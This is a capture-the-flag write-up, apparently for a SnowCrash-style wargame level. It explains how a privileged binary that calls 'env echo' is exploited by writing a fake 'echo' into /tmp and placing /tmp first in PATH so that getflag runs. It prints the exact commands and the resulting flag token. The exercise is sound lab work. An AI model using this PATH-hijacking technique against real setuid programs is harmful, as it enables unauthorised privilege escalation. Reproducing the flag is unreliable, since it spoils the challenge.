 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level03 `

```
$ ls
> level03
```

It look like an binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some try with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try se if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Remember to get back the old path if you remove it.

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Trying againt and...

```
$ ./level03
> qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>
